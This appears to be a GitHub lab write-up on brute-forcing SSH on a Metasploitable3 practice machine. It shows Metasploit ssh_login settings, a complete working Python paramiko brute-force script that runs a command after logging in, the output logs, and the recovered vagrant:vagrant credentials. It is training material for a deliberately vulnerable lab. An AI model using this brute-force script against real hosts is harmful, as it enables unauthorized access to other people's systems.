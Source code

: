 Here’s the revised content with the outputs placed in distinguished boxes for better clarity:

---

# Phase 1: SSH Service Compromise  

---

## Overview  
This phase demonstrates SSH brute force attacks against Metasploitable3 using:  
- Metasploit Framework (`ssh_login` module)  
- Custom Python brute force script  
- Successfully identified vulnerable credentials:  
  `vagrant:vagrant`  

---

## Attack Methodologies  

![image](https://github.com/user-attachments/assets/19d3a39f-f3a8-4b12-8f30-b185c878e1aa)

### 1. Metasploit Brute Force Attack  
#### Configuration:  
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOST 192.168.56.102
set RPORT 22
set USER_FILE /absolute/path/usernames.txt
set PASS_FILE /absolute/path/passwords.txt
set THREADS 3
run
```

#### **Output:**  
```
[*] 192.168.56.102:22 - Starting brute force
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### **Key Findings:**  
- Required absolute paths for credential files  
- Case-sensitive commands (e.g., `set`, not `SET`)  
- Full scan of the target system successfully completed  

---

### 2. Custom Python Brute Force Script  

![image](https://github.com/user-attachments/assets/19bc2092-83d9-4c58-a290-8792e1a389a8)

#### Script: `compromise.py`  
```python
import paramiko
import time

TARGET_IP = "192.168.56.103"
PORT = 22
USERNAME_FILE = "username.stxt"
PASSWORD_FILE = "password.stxt"
COMMAND_TO_RUN = "ip a"

def attempt_login(hostname, port, username, password):
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(hostname=hostname, port=port, username=username, password=password, timeout=5)
        print(f"[+] Successfully logged in as {username}:{password} on {hostname}")
        return client
    except paramiko.AuthenticationException:
        print(f"[-] Login failed for {username}:{password} on {hostname}")
    except paramiko.SSHException as e:
        print(f"[-] SSH error connecting to {hostname}: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")
    return None

def execute_command(client, command):
    try:
        stdin, stdout, stderr = client.exec_command(command)
        output = stdout.read().decode().strip()
        error = stderr.read().decode().strip()
        if output:
            print(f"[+] Command executed successfully. Output:\n{output}")
        if error:
            print(f"[-] Error executing command:\n{error}")
    except Exception as e:
        print(f"[-] Error executing command: {e}")

def main():
    usernames = []
    passwords = []

    try:
        with open(USERNAME_FILE, 'r') as f:
            usernames = [line.strip() for line in f]
    except FileNotFoundError:
        print(f"[-] Error: {USERNAME_FILE} not found.")
        return

    try:
        with open(PASSWORD_FILE, 'r') as f:
            passwords = [line.strip() for line in f]
    except FileNotFoundError:
        print(f"[-] Error: {PASSWORD_FILE} not found.")
        return

    for username in usernames:
        for password in passwords:
            print(f"[+] Trying {username}:{password} on {TARGET_IP}:{PORT}")
            ssh_client = attempt_login(TARGET_IP, PORT, username, password)
            if ssh_client:
                print("[+] Proof of Concept:")
                execute_command(ssh_client, COMMAND_TO_RUN)
                ssh_client.close()
                print("[+] Connection closed.")
                return

if __name__ == "__main__":
    main()
```

#### **Execution:** 

![image](https://github.com/user-attachments/assets/7afeb784-38fd-4788-aa69-2df8ee1db8a5)
 
```bash
python3 compromise.py
```

#### **Output:**  
```
[+] Successfully logged in as vagrant:vagrant
```

---

## Discovered Credentials  
- **Username:** `vagrant`  
- **Password:** `vagrant`  

---

## Requirements  

- Metasploit Framework (v6.3+)  
- Python 3.8+  
- Paramiko (Install via `pip install paramiko`)  

--- 

Let me know if you need further refinements!
